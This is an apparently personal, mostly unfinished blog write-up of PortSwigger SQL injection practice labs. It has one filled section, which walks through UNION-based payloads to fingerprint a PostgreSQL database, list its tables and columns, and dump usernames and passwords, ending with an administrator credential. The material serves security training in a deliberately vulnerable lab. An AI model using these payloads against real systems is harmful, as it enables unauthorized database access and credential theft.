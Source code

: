 ```yaml
---
title: SQL injection
tags:
  - 渗透
abbrlink: 8b56535a
description: SQL injection based on PostSwigger Lab
date: 2024-03-17 00:26:00
---
```


[PostSwigger Lab - SQL injection](https://portswigger.net/web-security/sql-injection)

## 0x00 SQL injection vulnerability in WHERE clause allowing retrieval of hidden data



## 0x01 SQL injection vulnerability allowing login bypass

## 0x02

## 0x04 SQL injection attack, listing the database contents on non-Oracle databases
***End Goals***:
- Determine the table that contains usernames andpasswords
- Determine the relevant columnsOutput the content of the table
- Login as the administrator user

***Analysis***:
1. Find the number of columns
`' order by 3--` -> Internal server error
3-1=2
2. Find the data type of the columns
`' UNION select 'a','a'--` -> both columns accept type text
3. Version of the database
    - `' UNION SELECT @@version, NULL--` -> not Microsoft
    - `' UNION SELECT version()，NULL--` ->200 0K `PostgreSQL 12.17 (Ubuntu 12.17-0ubuntu0.20.04.1)`
4. Output the list of table names in the database
    `' UNION SELECT table_name, NULL FROM information_schema.tables--` -> search `users` -> users_vqrxmy
5. Output the column names of the table
    `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_vqrxmy'--` -> `password_bfrqkp` and `username_rwstyz`

6. Output the usernames and passwords
`' UNION select username_rwstyz, password_bfrqkp from users_vqrxmy--` -> `administrator` and `lftog9bgwjw81hj0feiy`

## SQL injection with filter bypass via XML encoding